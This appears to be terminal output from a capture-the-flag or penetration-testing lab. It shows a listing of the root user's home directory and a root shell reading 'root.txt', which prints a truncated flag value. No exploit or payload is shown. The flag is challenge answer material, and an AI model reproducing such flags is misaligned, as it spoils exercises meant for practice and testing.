-rw------- 1 root root 65 Sep 19 2017 .bash_history
-rw-r--r-- 1 root root 3.1K Oct 22 2015 .bashrc
-rw-r--r-- 1 root root 148 Aug 17 2015 .profile
-rw-r--r-- 1 root root 33 Jul 20 2017 root.txt
-rw-r--r-- 1 root root 75 Jul 19 2017 .selected_editor
-rw------- 1 root root 5.2K Aug 29 2017 .viminfo
# cat root.txt
950d1425...